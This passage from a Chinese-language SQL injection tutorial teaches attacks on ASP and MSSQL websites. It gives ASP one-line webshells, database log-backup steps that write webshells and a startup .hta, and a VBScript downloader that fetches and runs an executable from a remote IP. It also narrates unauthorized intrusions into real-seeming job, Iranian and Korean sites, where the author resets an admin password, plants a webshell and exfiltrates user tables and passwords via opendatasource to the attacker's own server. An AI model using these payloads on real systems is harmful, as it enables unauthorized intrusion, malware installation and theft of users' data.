上面看到的一些数字和字母的组合依然是一句话的十六进制。这里有几点要说明，就是字符型的注入点要在语句前加上单引号以闭合前面的语句，而整型的注入点就没有必要了。另外有时候可能一句话备份不成功，可以试试以下几个版本的一句话，它们的连接密码都是 a。

```text
<%%25Execute(request("a"))%%25>
<%Execute(request("a"))%>
%><%execute request("a")%><%
<script language=VBScript runat=server>execute request("a")</script>
<%%25Execute(request("a"))%%25>
```

除此之外，大家还可以参考一下 NBSI 中 getWebshell 里的语句。另外，如果备份的数据库名有特殊符号，如“_”，则数据库名需要用 `[]` 包含起来。

既然能备份成 ASP 格式，那也应该可以备份成其它格式，下面这一段代码就是把你的下载木马代码备份到启动项，这是好友 B100d5w0rd 写的，成功率比较高：

####### 第一步

```text
http://192.168.1.23/test.asp?id=0;alter database dbname set recovery full;create table temp(aa sql_variant primary key)--
```

####### 第二步

```text
http://192.168.1.23/test.asp?id=0;declare @a varchar(255);set @a=0x433A5C...;backup log dbname to disk=@a with init--
```

####### 第三步

```text
http://192.168.1.23/test.asp?id=0;insert into temp values(0x3C736372697074206C616E67756167653D225642536372697074223E...3C2F7363726970743E)--
```

####### 第四步

```text
http://192.168.1.23/test.asp?id=0;declare @a varchar(255);set @a=0x433A5C...;backup log dbname to disk=@a--
```

其中的 `3C736372697074206C616E67756167653D225642536372697074223E...3C2F7363726970743E` 是下面代码的十六进制：

```html
<script language="VBScript">
window.moveTo 8888,8888
u="http://119.98.95.104/1.exe"
p="m.exe"
Set x=CreateObject("Microsoft.XMLHTTP")
x.Open "GET",u,0
x.Send()
Set s=CreateObject("ADODB.Stream")
s.Mode=3
s.Type=1
s.Open()
s.Write(x.responseBody)
s.SaveToFile p,2
Set w=CreateObject("Wscript.Shell")
w.Run p,0
w.Run "cmd /c del a.hta",0
window.resizeTo 0,0
window.close
</script>
```

上面这段代码的意思就是下载 `http://119.98.95.104/1.exe`，并保存为 `m.exe` 然后执行。

`433A5C446F63756D656E747320616E642053657474696E67735C41646D696E6973747261746F725C5374617274204D656E755C50726F6772616D735C537461727475705C612E687461` 为 `C:\Documents and Settings\Administrator\Start Menu\Programs\Startup\a.hta` 的十六进制形式，当然这里要根据实际情况来变化，如果对方的操作系统是中文的，那就要进行相应的转换哦。

原理就讲这么多，来看一下实践的情况。下面是我好友 B100d5w0rd 写的文章《利用 SHELL INJECTION 进行入侵》，大家可以作为参考。

## 《利用 SHELL INJECTION 进行入侵》

目标是 `http://www.fillxxx.com/`，好像是什么大学生求职/兼职类型的网站，如图261。先扫了一下后台，如图262，结果蛮丰富的，不光扫到了后台，又有 eWebeditor 和 fckeditor，还带个论坛。接着发现，eWeb 删了后台，fck 禁用了上传，都没办法利用了。论坛是 dv8.2 的，手里又没 0day，看来只有从主站下手了。


随便打开一个链接 `http://www.fillxxx.com/ppca/MoreLog.asp?classid=4&classname=...`，把后面的 classname 参数去掉，依然正常显示。来看看前面这个参数有没有注入的问题吧。一般人测试注射喜欢在后面加个引号，我比较习惯先随便加两个字母，看看是不是限制了纯数字的注入。如果是纯数字，我就不浪费时间了。结果如图263，看来注射是存在的，and 1=1 之后，防注提示出来了，如图264。


看样子不像是通用防注入程序，感觉是自己写的函数，试了一下 cookie 注射，果然不行。在 URL 后面直接跟个 and 呢？没有过滤，语句出错了，带空格过滤很容易绕过，试一下 `/**/and/**/1=1`，成功了，如图265，于是就开始注射了。


SHELL INJECTION 这个是我自己写的注射工具，用起来有点麻烦，不支持暴力猜解，不过对付一些非常规的注射点比较好用。填好参数就开始了，先从 sysobjects 里猜表试试，结果郁闷的事情又发生了，如图266。莫奇怪，我明明已经选了用 `/**/` 来代替空格，怎么还是被过滤了？找了半天，原来是单独过滤了 where 关键字，另外还过滤了 char 函数。


如“char/**/”的形式就可以绕过，我的工具里有这个功能。但是 where 是不带空格或者标记过滤的，试了下，不用 where 的 SQL 语句可以正常执行，如图267。


但是这样的话就只能取第一行数据了，来试试 union 吧，union 正常执行的话应该能取得所有行。order by xx 取得一共 select 了12列，`and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12` 取得显示数据的字段一共有 1、7、9、11 几列。但是 union 一下，又出问题了，如图268。


跟据错模式的结果一模一样，真奇怪。因为已经用 `and 1=2` 把前面的结果集置空了，照理说不应该出现数据类型不兼容的问题啊？因为看不到代码，你也不会知道程序里是怎么处理语句的，那边做了什么手脚。

接着用字典来扫一下表，如果运气好的话，取到第一个管理员的密码就可以直接进去了。结果一个都没扫出来，看来常规的方法是没办法搞了。

这时我想起昨晚通宵都在写的 shell injection 2.0 版本，里面我新加入了一个 MSSQL 环境注射用 openrowset 函数来取数据的功能，虽然工具还没全部完成，但是已经基本上可以用了。于是传到 Webshell 上，没想到报错了，原来这个版本是用 aspx 写的，虚拟机里是 .net 2.0 环境，没有测试 .net 1.1 下的兼容问题。手上几个支持 aspx 的 Webshell 都是 1.1 的，一时半会我也懒得改了，先在虚拟机里凑合用吧。这时候我开了个 vpn，设置好 openrowset 的参数，如图269，然后点“确定”，一看回显，又郁闷了。


不知道遇到什么错误了，去数据库里看一下，内容确实没发送过去。现在怎么办呢？经验告诉我，很多时候遇到这种情况，换个注射点就 OK 了。于是重新去首页晃荡，找了几个点都不好，这时看到首页右上角的搜索框，随便输个关键字，回显正常，后面跟个 `'`，出错了，如图271。

看看，语句都暴出来了！后来发现，只要执行出错就会显示这个提示信息，而不是关键字被过滤。OK，语句出来了就不用费尽心思去猜了，我们来看参数。在首页按鼠标右键，选择“查看源码”，如图272。可以看到，参数名是 SearchKeyValue，表单是 post 的。试试 get 方式传递的参数能收到吗？直接输入 `http://www.fillxxx.com/jianzhi/jianzhi.asp?SearchKeyValue=厦门`，回显正常。再输入 `http://www...`## 图270

```sql
请不要尝试输入非法信息。
Select
U.user_dir,U.user_folder,C.Comid,C.CompanyName,j.JobId,j.Comid,j.JobName,j.Work_Area,j.Work_City,j.Edus,j.Deal,j.DealIntr,j.Number,j.Require,j.LastUpdate_Time
from ppca_Job_Base as J, ppca_Company_Base as C, ppca_user as U
where J.Comid = C.Comid
  and J.Comid in ('fsvrv13kkv2h1027','fscgn787fz.jc7940','fs3l7wzbzr5x8228')
  and datediff(d,j.EndDate,getdate())<=0
  and j.jobflag=1
  and C.Userid = U.Userid
  and JobType>=2
  and (J.JobName like '%厦门%' or J.Require like '%厦门%')
order by J.LastUpdate_Time desc
```

## 图271

## 图272

fillxxx.com/jianzhi/jianzhi.asp?SearchKeyValue=厦门7%25')--，也正常。

填好参数开始吧，向远程数据库里发送本地数据的语句如下：

```sql
insert openrowset('sqloledb','server=xx,xx,xx,xx;uid=xx;pwd=xx','select * from tempdb..#tmp')
select top 100 [name] from [sysobjects] where xtype='u'
```

因为过滤了很多东西，所以转成16进制，然后发送，效果如图273。

```sql
declare @a varchar(4000);
set @a=0x696E73657274206F70656E726F77736574282773716C6F6C656462272C277365727665722C...;
exec(@a)--
```

经过了重重的曲折，终于把表爆出来了，然后看到管理表是 ppca_admin，难怪刚才字典没猜到。然后一路下去，猜列、猜内容……如图274。

嘿嘿，密码爆出来了哈，去了几个破 md5 的站点都没破开。算了，直接 update 他密码吧，进去后给他改回来就行了。构造语句“update ppca_admin set password='49ba59abbe56e057' where username='admin'”，其中的 49ba59abbe56e057 是 123456 的 md5 值。将语句全部转换为16进制，即：

```sql
declare @a varchar(255);
set @a=0x75706461746520707063615F61646D696E207365742070617373776F72643D27343962613539616262653536653035372720776865726520757365726E616D653D2761646D696E27;
exec(@a);
```

提交一下，然后重新取数据，如图275。可以看到，密码已经成功改掉了，于是登录后台，密码错误……看来密码不是标准的 md5，那就不从后台下手了，列目录直接备份吧。

列了半天目录，找到了好几个 Web 路径，都不是这个站的，郁闷……说不定是 Web 跟数据库分离了。对了，先看下权限吧，如图276。

图273  
图274  
图275  
图276

竟然是个 sa！真失败，开始一直都没去看，如果一切顺利的话，就直接加个账号进 3389 了。扫一下端口，只开了 21、80 和 3306（后来重新扫的时候居然开 1433 了，真诡异），没有 1433，有可能是分离了，但也有可能是被防火墙阻止。

既然是 sa，运行 ipconfig 看看吧。利用 xp_cmdshell 执行一下 ipconfig，然后去猜数据，结果为空……郁闷。尝试用 sp_oacreate 和沙盒执行，都失败了；尝试恢复 xp_cmdshell 也一样，因为 asp 执行 mssql 语句，分号后面的语句出错是不会有提示的，所以也没办法知道问题在哪里。

怎么办呢？有个办法，用 openrowset 弹回来连自己的机子，就可以抓到对方的 ip 了，不过这样也会暴露自己的 ip。不管这么多了，关掉 vpn，然后反弹连接自己，如图277，看到他的 ip 了，嘿嘿，反查一下，如图278。

一共 30 多个站呢，不过都是他自己的，不是虚拟主机。注意被选中的那个，原来 Web 跟 data 没有分离，我信心大增，重新列一下目录，最后发现 e:\fillsky\ 下的 wwwroot 和 wwwroot2 这两个目录比较可疑（刚才都列到 G 盘了，咋就没发现呢，我汗~）。

先列一下 wwwroot，然后在里面选了几个名字比较生僻的文件去跟网站里的对照，发现文件都存在，嘿嘿，看来就是它了，备份一下试试。step1、step2、step3、step4……备份完成，现在你可以访问你的 Webshell 了。打开试试，报 404 错误，郁闷，重新列下目录，如图279。

发现是成功备份进去了的，看来这个不是 Web 目录，那另外那个 wwwroot2 呢？懒得列了，直接备份吧，step1、step2、step3、step4……备份完成，现在你可以访问你的 Webshell 了，如图280。

哈！终于成功搞到 Webshell 了，传个大马上去。到处看了下，原来 mssql 账号不是 sa，怪不得刚才 cmdshell 什么都不行。但不是 sa 为什么 user 显示的是 dbo 呢？真奇怪，遇到过几次了。貌似没什么可以提权的地方，也没找到 mysql root 什么的。用目录探针扫到一个 pcAnywhere 的目录，如图281。

pcAnywhere 的高版本貌似不能直接从 cif 里读密码了，而且我这边也没装客户端，算了，就这样吧，提权也不是我的专长，就不继续了。

Db_owner 权限的入侵就讲到这里了，下面讲讲 public 权限下的入侵。Public 权限下如何使用存储过程呢？在 public 权限下，我们依然可以用 xp_dirtree 来列目录，但不能建表，无法备份得 shell，不过至少可以通过这种方法得到一些敏感目录及文件。

除此之外，一直到现在为止我都没有提到的就是猜表猜后台了。在 MSSQL 中可不像 ACCESS 那样需要你的经验一个一个地猜表哦，如果有回显错误，我们可以一一通过 MSSQL 中的 information_schema 来得到所有的表名、列名和相应的内容。

我们一起来操作演练下吧，得到当前的表及相应的列，可以使用 having 1=1--，如提交如下。

###### URL

```url
http://www.test.com.tw/driver.asp?m_id=1%20having%201=1--
```

返回的信息如图282。给大家演示的是一个台湾站，由于编码问题所以显示的是乱码，但这丝毫不影响我们从这些错误中得到信息。仔细看就会发现有“mycat.id”这样的字眼，说明存在 mycat 这个表，并且这个表中有一个 id 列名。那如何取得当前表中其它的列呢？那就要配合 group by 了，我们提交如下 URL：

```url
http://www.test.com.tw/driver.asp?m_id=1%20group%20by%20mycat.id%20having%201=1--
```

得到的结果如图283。呵呵，又得到了当前表的一个列了。我们就这样再提交如下 URL：

```url
http://www.test.com.tw/driver.asp?m_id=1%20group%20by%20mycat.id,mycat.c_name%20having%201=1--
```

以此类推，一直到得到所有当前表的列为止。好学的你会问了，我们得到的是当前的表和列，那其它的表和列呢？呵呵，不急，不是还有 information_schema 吗？我们来试一试这个系统表的威力。我们提交如下 URL：

```url
http://www.test.com.tw/driver.asp?m_id=1%20and%201=convert(int,(select%20top%201%20table_name%20from%20information_schema.tables))--
```

以上语句就是通过 convert 函数使其报错并得到当前第一个表，我得到的信息如图284。看到没，第一个表名为 Ch_sub，那么如何继续查找第二个甚至第三个呢？我们接着提交如下 URL：

```url
http://www.test.com.tw/driver.asp?m_id=1%20and%201=convert(int,(select%20top%201%20table_name%20from%20information_schema.tables%20where%20table_name%20not%20in%20('Ch_sub')))--
```

得到的信息如图285。咦，怎么没有预期的表出现呢？是的，这里我也感觉到奇怪，可能做了某些限制吧，或者只有这一个表？不过不要紧，普通情况下是可以爆出其它表的。我们再换一个点试一下，提交如下 URL：

```url
http://www.test.ir/En/Subject.asp?ID=4%20and%201=convert(int,(select%20top%201%20table_name%20from%20information_schema.tables))--
```

很顺利地得到第一个表，如图286。我们再提交如下 URL：

```url
http://www.test.ir/En/Subject.asp?ID=4%20and%201=convert(int,(select%20top%201%20table_name%20from%20information_schema.tables%20where%20table_name%20not%20in%20('Backup2','SearchFirst')))--
```

```url
tables%20where%20table_name%20not%20in%20('%7tblcounter%27')))
```

怎么样，又出来了一个表吧？如图287。

剩余的表如何得到呢？不急，我们接着提交如下 URL：

```url
http://www.test.ir/En/Subject.asp?ID=4%20and%201=convert(int,(select%20top%201%20table_name%20from%20information_schema.tables%20where%20table_name%20not%20in%20('%7tblcounter%27','%27BackUp2-SearchFirst%27')))
```

图288

返回结果如图288。依此类推，我们就可以得到所有表的权限。这个方法就和普通的猜表有效率多了，啊D的 MSSQL 专用检测表段就是这样，比起手工来速度更快，如图289，是猜解出来的结果。

图289

我们继续吧，刚才来了一个小插曲。最后当我提交如下 URL 的时候发现报错了，也就是说所有的列名都出来了：

```url
http://www.test.ir/En/Subject.asp?ID=4%20and%201=convert(int,(select%20top%201%20table_name%20from%20information_schema.tables%20where%20table_name%20not%20in%20('%7tblcounter%27','%27BackUp2-SearchFirst%27','%27Count_En%27', ... ,'%27viewWriterPaper%27')))
```

注意到没有，里面有一个 Users 的表，这个表里的数据应该比较敏感了，我们下一步要做的就是得到这个表里的列名。如何做呢？我们提交如下 URL：

```url
http://www.test.ir/En/Subject.asp?ID=4%20and%201=convert(int,(select%20top%201%20column_name%20from%20information_schema.columns%20where%20table_name='%27Users%27'))
```

图290

得到的返回信息如图290。很好，爆出了第一个列名，接着爆第二个吧，再次提交如下 URL：

```url
http://www.test.ir/En/Subject.asp?ID=4%20and%201=convert(int,(select%20top%201%20column_name%20from%20information_schema.columns%20where%20table_name='%27Users%27'%20and%20column_name%20not%20in%20('%27ID%27')))
```

图291

第二个也出来了，如图291。

看看第三个表是什么，提交如下 URL：

```url
http://www.test.ir/En/Subject.asp?ID=4%20and%201=convert(int,(select%20top%201%20column_name%20from%20information_schema.columns%20where%20table_name='Users'%20and%20column_name%20not%20in%20('ID','UserName')))
```

心爱的 password 也出来啦！如图292。

如果你不想得到这个表里的其它列名，那么可以按照上面的方法接着往下进行，我这里就不演示了，因为关键性的三个列已经出来了。接下来，我们要做的就是把这三个列的值全部取出来，不管 ID 了，直接对 UserName 取值，提交如下 URL：

```url
http://www.test.ir/En/Subject.asp?ID=4%20and%201=-convert(int,(select%20top%201%20UserName%20from%20Users))
```

第一个 UserName 的值为 siduser，如图293。看下第二个是什么，提交如下 URL：

```url
http://www.test.ir/En/Subject.asp?ID=4%20and%201=-convert(int,(select%20top%201%20UserName%20from%20Users%20where%20UserName%20not%20in%20('siduser')))
```

报错了，如图294。这也就说明只有一个用户。来爆下 password 列的值，提交如下 URL：

```url
http://www.test.ir/En/Subject.asp?ID=4%20and%201=-convert(int,(select%20top%201%20Password%20from%20Users))
```

密码出来了，如图295。呵呵，接下来的事情就是找后台啦，最后我通过一个图片的链接找到了后台，如图296。

貌似是阿拉伯文字？仔细一点你会发现，这个站在输入的时候是从右到左的，汗！输入刚才得到的用户名和密码，进去后更看不懂了，如图297。

算了，就搞到这里吧。如果你够细心，会发现我注入和登录后台分别是用的 FIREFOX 和 IE 浏览器。为什么？因为 IE 对 HTML 的支持比较随意，而 FIREFOX 比较标准且在默认情况下是禁用了 javascript 的，所以开始我用 FIREFOX 登录的时候就没有反应，换了 IE 才登录进去的。

如果你是一个急性子，觉得上面的代码依然让你摸不着头脑，那就利用工具 opendatasource 吧！它可以一次性地把所有的数据库名都取出来，并且在 public 权限下也是可以使用的哦！

样？心动了吧！不急，利用这个函数的前提条件是你本地要搭建一个 MSSQL，并且注入点要支持多句执行。

我们再找一个站来试一下，首先为了让返回的数据能够正确地存入到本机搭建的 MSSQL 表中，得在当前 MSSQL 里建几个表来存储返回的内容，用到的代码如下（我这里是在查询分析器里执行的）：

```sql
create database test;
use test;
create table ku(name nvarchar(256) null);
create table biao(id int null,name nvarchar(256) null);
```

记住一定要用上第二句 `use test`，如果你不用的话，那么你建的表都自动归属于 `master` 库了。好了，然后在注入点执行如下语句：

```text
http://www.test.co.kr/product/list.asp?...;insert into opendatasource('sqloledb','server=119.98.100.50,1433;uid=sa;pwd=test;database=test').test.dbo.ku select name from master.dbo.sysdatabases--
```

说明一下，上面的那个 `119.98.100.50` 是我外网的 IP，`1433` 为 MSSQL 开放的端口。好，把刚才新建的 `test` 库刷新一下，找到下面的用户表，如图 298。


接着右键打开 `dbo.ku`，你会发现刚才什么内容都没有的地方一下子就充满了对方数据库的库名，如图 299 所示。

怎么样，比刚才一个个猜要简单多了吧。得到了数据库的库名，接下来要得到库里的表了，我们还是先得到当前库的所有表名吧，提交如下 URL：

```text
http://www.test.co.kr/product/list.asp?...;insert into opendatasource('sqloledb','server=119.98.100.50,1433;uid=sa;pwd=test;database=test').test.dbo.biao select [id],[name] from sysobjects where xtype='U'--
```


再去 `test` 库里的 `biao` 看下，你又惊奇地发现当前库里的表全部整齐地排列好了，如图 300。

获得其它库的表如何做呢？也很简单，把刚才的 `insert` 语句换成下面的即可：

```sql
insert into opendatasource('sqloledb','server=119.98.100.50,1433;uid=sa;pwd=test;database=test').test.dbo.biao
select [id],[name] from 库名.dbo.sysobjects where xtype='U';
```


这样本机 `test` 库下的 `biao` 会自动添加后来导入的表名的。获得表名后咋办？当然是继续得到列名嘛。先等一下，和刚才得库名及表名一样，我们现在需要在本机上建一个与列名一样结构的表呀，不然对方数据怎么导入呢？在查询分析器里执行如下语句：

```sql
select * into [aa] from syscolumns where 1=2
```

这样就会把系统表 `syscolumns` 的结构复制给 `[aa]`，如图 301。

好了，都准备好了，取 `Amember` 表里的列，提交如下 URL：

```text
http://www.test.co.kr/product/list.asp?...;insert into opendatasource('sqloledb','server=119.98.100.50,1433;uid=sa;pwd=test;database=test').test.dbo.aa select * from syscolumns where id=2089058478
```


其中 `id` 后面跟的数字就是刚才图 300 里表名 `Amember` 对应的值，先去看看 `aa` 表的结构，如图 302。

到这里要停一下，补充一下知识。仔细看图 302，你会发现 `name` 字段里都是列的名字，而 `xtype` 就是类型了。那么数据库里有哪几种类型的数据格式呢？我已经收集好了，不同类型的数据对应不同的值，参考如下：

| xtype值 | 数据类型 |
|---|---|
| 34 | image |
| 35 | text |
| 52 | smallint |
| 56 | int |
| 61 | datetime |
| 62 | float |
| 108 | numeric |
| 167 | varchar |
| 175 | char |
| 231 | nvarchar |

为什么要知道这些呢？原理还是一样的，因为要导入别人的数据，本机搭建的环境就一定要一样，不然会“水土不服”的。这里一共有 16 列，还不算多，我们要把它们的值都取出来。怎么做呢？再建一个表，表的结构要和对方的表结构一样，我们执行下面的语句：

```sql
use test;
create table message(
  u_idx int null,
  u_id varchar(256) null,
  u_pwd varchar(256) null,
  u_name varchar(256) null,
  u_idnum varchar(256) null,
  u_email varchar(256) null,
  u_zip varchar(256) null,
  u_addr varchar(256) null,
  u_tel01 varchar(256) null,
  u_tel02 varchar(256) null,
  u_point int null,
  u_date varchar(256) null,
  u_count int null,
  u_biz varchar(256) null,
  u_ect varchar(256) null,
  u_event varchar(256) null
);
```

也就是说要在本机上建立和对方一样的表，之后就是取数据了，提交如下 URL：

```text
http://www.test.co.kr/product/list.asp?p_bclass=...%27insert%20into%20opendatasource(%27sqloledb%27,%27server=119.98.100.50,1433;uid=sa;pwd=test;database=test%27).test.dbo.message%20select%20*%20from%20[Amember]--
```

好了，现在去看下本机刚建的 `test` 库下的 `message` 表，一看就傻眼了，由于数据过大（因为上面的语句是一次性把 `Amember` 所有的列的值都取出来），我这边出现了“请求超时”的对话框，而且浏览器也显示超时，如图 303。


嗯，这样不好，虽然成果很丰富（那可是全部的数据哦）。不过，我们只对其中的 `u_id`、`u_pwd` 和 `u_name` 感兴趣，所以只取其中三个列的值。怎么做呢？再建一个表以示区别，语句如下：

```sql
use test;
create table mess1(
  u_id varchar(256) null,
  u_pwd varchar(256) null,
  u_name varchar(256) null
);
```

再提交如下 URL，这次学乖点，只取前五条的数据试试：

```text
http://www.test.co.kr/product/list.asp?...%27insert%20into%20opendatasource(%27sqloledb%27,%27server=119.98.100.50,1433;uid=sa;pwd=test;database=test%27).test.dbo.mess1%20select%20top%205%20u_id,u_pwd,u_name%20from%20Amember--
```

好，再到虚拟机的 MSSQL 里的 `test.mess1` 看一下，如图 304。

咦，哪来的问号？呵呵，这个很正常了，因为是国外站，编码当然和中国不一样，出现“？”是很正常的。通过以上操作，可以感觉手工很麻烦啊，有没有工具可以操作呢？当然有了，在 pangolin 的 1.3.1 版本中就加入了这个功能，使用很简单，如图 305。

可惜的是，功能还不太完美，因为不能取得最后的内容。还有一个工具比较老了，名字是 CADT2.0，国人写的，我很少用，不知道好不好使。


##### 4.5.2.2 针对无错误回显 MSSQL 2000 数据库的攻击

大家看一下前面的内容，根据错误回显我们会很容易地得到敏感信息。要是没有错误回显，你一输入类似的 SQL 语句就会弹出对话框，或者转到另一个页面，这该怎么办呢？到了这里也是要分情况的，比如我遇到的这一种情况是 `jsp+mssql`，当我提交 `and user>0` 的时候会出现如图 306 的结果。


这样的话，前面提到的暴错方法都不管用了。别急，前面在 access 数据库那一节提到过的 union 查询方法在这里是可以用的，通过 `order by` 最终确定字段数为 8，接着提交如下 URL：

```text
http://www.test.com/user/exchangesend.jsp?id=10%20and%201=2%20union%20select%201,2,3,4,5,6,7,8
```

得到的返回信息如图 307。接着怎么办？和前面一样，在 2 这个字段上填入你想要知道的变量名，如 `@@version`，我们提交如下 URL：

```text
http://www.test.com/user/exchangesend.jsp?id=10%20and%201=2%20union%20select%201,@@version,3,4,5,6,7,8
```


这样就可以得到版本信息以及数据库的操作系统了，如图 308。遇到这样的情况还算好的了，`order by` 可以成功。如果 `order by` 都不能利用，那又怎么办呢？答案就只有一个字了，那就是“猜”。猜是一定要做的事，至于你猜解的效率如何，就要看你的语句如何使用了。目前流行的方法中一种是利用类似前面提到的 ASCII 逐字法猜解，另一种就是利用 IF 判断语句结合时间差进行判断。第一种方法我就不说了，前面猜 access 数据库的时候已经提到过，下面来看第二种方法吧。


这种方法利用起来要有一个条件，那就是要支持多句执行。如我们提交：

```text
http://www.test.or.kr/news/list.asp?boardpart=%83l%89b%82%9A%83%83%9D%83O%9D%27;waitfor%20delay%20%270:0:5%27--
```


你会发现页面的刷新时间明显要慢些，为什么？因为我们在这个注入点后面加了一条语句：`waitfor delay '0:0:5'`，这条语句的意思是延迟 5 秒再执行 SQL 语句。从页面的反应时间来判断，我们的语句成功执行了，执行成功就意味着我们可以继续利用这个时间差来提问，如提交：

```text
http://www.test.or.kr/news/list.asp?board_part=%831%895%829%9A3%833%9D1%830%9D1%27;if(ASCII(lower(substring(user),1,1))>97) waitfor delay '0:0:5'--
```

这是判断当前用户的第一位数字的 ASC 值是否大于 97。接着是判断第二位，相关代码如下：

```text
http://www.test.or.kr/news/list.asp?board_part=%831%895%829%9A3%833%9D1%830%9D1%27;waitfor%20delay%20%270:0:5%27;if(ASCII(lower(substring(user),2,1))>97) waitfor delay '0:0:5'--
```

依此类推，你会发现这样做很麻烦。是的，也并不是没有工具可以代替，如平常用到的阿 D 和 NBSI 等都自带猜解功能。当然，你如果有足够的耐心，我想你一定会体会到盲注的威力。

## 4.5.2.3 针对错误回显对 MSSQL 2005 数据库的攻击

Mssql2005 是继 2000 后微软推出的升级产品，除了强大的功能外，还有更高的安全保障。在学这一节之前我想告诉大家，前面在 MSSQL2000 用到的知识大部分仍然是适用于 MSSQL2005 的，如猜表、判断权限等，但区别还是有的，下面我们一起来接触下。

在前面一小节里我就提到过，即使你有了 sysadmin 数据库的权限，默认情况下 `xp_cmdshell` 过程都是禁止的，你必须要开启它。除此之外，其它一些存储过程也是不能利用的，如 `openrowset`、`sp_oacreate` 等。

在 sysadmin 权限下开启 `openrowset` 的语句如下：

```sql
exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE;
```

开启 `sp_oacreate` 的语句如下：

```sql
exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;
```

这里的权限是 sysadmin，如果你是 db_owner 呢？很不幸，在 MSSQL 2005 中是不可以列目录的，这下你觉得是不是只有猜表这一条路可以走了呢？不，虽然不能列目录，但我们还是有权限备份的。说到这里，有人就要反问了，你连目录都不知道，怎么备份呢？是的，开始我也是这么想，可备份不一定非要拿 SHELL 呀？备份一段加用户的代码或者下载者什么的，都是可以的。注意了，MSSQL 2005 的备份和 2000 的备份不一样，代码如下：

```sql
alter database databasename set RECOVERY FULL--
create table xiao (a image)--
backup database databasename to disk='c:\a' with init--
backup log databasename to disk='c:\a' with init--
insert into xiao (a) values (0x3C25657865637574652872657175657374282261222929253EDA)--
backup log databasename to disk='Web路径'--
Drop table xiao--
```

仔细对比一下前面提到的 log 备份，你会发现这段代码里备份了两次，一次是备份库，一次是库备份 log。至于原因，我也讲不清楚，如果你嫌麻烦，这里有一份我的好友小志写的 PHP 版本 EXP，程序界面如图 309。


其实，得到目录也不是只有列目录这个方法，你还可以配合其它的方法来得到。在 MSSQL 2000 中，我们碰到只能猜表或者后台的时候，会使用 `select top 1 name from master.dbo.sysdatabases` 依次得到库名，再利用 `select top 1 table_name from information_schema.tables` 和 `select top 1 column_name from information_schema.columns where table_name='table'` 来得到表名和相应表名对应的列。这种方法同样适用于 MSSQL 2005，不过缺点是明显的，那就是慢。在 MSSQL 2005 中，有一种方法可以非常快速地取出数据，那就是 `for` 语句。

如果你想对 `for` 语句有一个很全面透彻的了解的话，我劝大家还是去 MSDN 看一下官方的解释，链接为：`http://msdn.microsoft.com/zh-cn/library/ms173812.aspx`。

`for` 语句里面有两种选项，其中对我们有用的是 `xml` 选项。而 `xml` 也有其相应的参数，并且我们也只对 `raw` 参数感兴趣。为什么呢？看一下官方的解释：

> RAW [ ( 'ElementName' ) ]  
> 将查询结果并将结果集内的每一行转换为以一般标识符 `</row>` 作为元素标记的 XML 元素。（可选）可以为该行元素指定名称。所得到的 XML 输出将使用指定的 `ElementName` 作为每一行生成的行元素。

“可以将查询的结果并将结果集内的每一行转换为以一般标识符 `</row>` 作为元素标记的 XML 元素”，这提醒我们在注入的时候不必一次只猜一个数据了，可以一次性地把所有想到的数据都显示出来。

怎么做呢？我这里利用的是显错模式，如得到当前所有的数据库名，提交如下 URL：

```text
http://www.test.com/fr/services/forums/inscription.asp?id=77%20and%201=(select%20name%20from%20master.dbo.sysdatabases%20FOR%20XML%20raw)
```

返回的结果如图 310。仔细看图 310，你会发现所有的数据库名全部出现在 `name` 元素的双引号之内。同样，怎么得到当前库下的所有表名呢？我们来提交如下 URL：


```text
http://www.test.com/fr/services/forums/inscription.asp?id=77%20and%201=(select%20name%20from%20sysobjects%20where%20xtype=char(85)%20for%20xml%20raw)
```

得到的信息如图 311。光得到当前库下的表名不过瘾，我们来试一下跨库查询，暴一下其它库的所有表。当然，在做之前你要确定是否有跨库查询的权限。这里我以 `master` 为例，提交如下 URL：

```text
http://www.test.com/fr/services/forums/inscription.asp?id=77%20and%201=(select%20name%20from%20master.dbo.sysobjects%20where%20xtype=char(85)%20for%20xml%20raw)
```

得到的结果如图 312。怎么样，其它库的表一样可以暴出来。表名得到后接下来当然是暴列名了，如何做呢？这里以当前库下的 `tbl_forum_Webd` 为例来演示一下，提交如下 URL：


```text
http://www.test.com/fr/services/forums/inscription.asp?id=77%20and%201=(select%20column_name%20from%20information_schema.columns%20where%20table_name='...')
```

```text
%27tbl_forum_Webd%27%20for%20xml%20raw)
```

得到的结果如图313。至于最后的取值，就和前面一样操作了。还有一种方法是利用 union 取值，并且这种方法已经有利用工具出来了，如 trace 大牛他们写的 sql_2005_inj.exe 就是利用的这个原理。Union 在 mssql 2005 中的应用是和 2000 一样，没有差别，这里既然提到了 union 注入的问题，就让我们好好讨论一下吧。


图312


图313

我们还没有讲到 php+mysql 中遇到的情况，到目前为止都是 asp+mssql 的模式。但在 union 注入的时候，总会碰到一些类型不匹配，或者页面上没有回显内容的问题，其实这些都是可以解决的，只不过需要对 union 进行深入的了解。

在 union 注入之前，我们需要得到当前注入点的字段数。到目前为止，获得当前注入点字段数一共有三种方法，第一种就是利用 having 1=1 结合 group by 来逼出当前所有的字段数，如提交：

```text
http://www.test.co.kr/custom/Noti_02.asp?id=366%20having%201=1--
```

一般会得到如下的返回信息：

```text
[Microsoft][ODBC SQL Server Driver][SQL Server] ... GROUP BY ... SELECT ... /custom/Noti_02.asp, 行 41
```

可以看到暴出了当前第一个字段名，接着我们再利用 group by 逼出第二个字段名，如提交：

```text
http://www.test.co.kr/custom/Noti_02.asp?id=366%20group%20by%20knotice.notice_id%20having%201=1--
```

这样就会得到第二列的列名，依此类推，一直到最后我们提交如下 URL 的时候发现列名已经被穷举完了：

```text
http://www.test.co.kr/custom/Noti_02.asp?id=366%20group%20by%20knotice.notice_id,knotice.notice_idx,knotice.name,...,knotice.content%20having%201=1--
```

得到的信息如图314。


图314

从图314我们得到的不是列名，而是类型不匹配的一些错误信息。我们数一下，发现一共有十一个列，那么字段数当然就是11。

第二种方法就是 order by N 的方式了。注意，不一定非要 order by 11 返回正确、order by 12 返回错误，才能确定字段数是11。我这里的 order by 11 同样是错误，如图315。


图315

很明显，图315得到的错误信息和图314是一致的，也就是说这两种方法得到的结果是相同的。而我们再来看一下 `order by 12` 返回的信息，如图316。


图316

第三种方法就是利用 `and 1=2 union select n1,n1……` 这样的方式一个个地去试。很明显，如果字段数一多，再加上没有明显的页面区别，这种方法是很没有意思的。但请不要忽略这种方法，我有一次碰到的就是不能 `order by`，但利用这个猜到了当前字段数。


图317

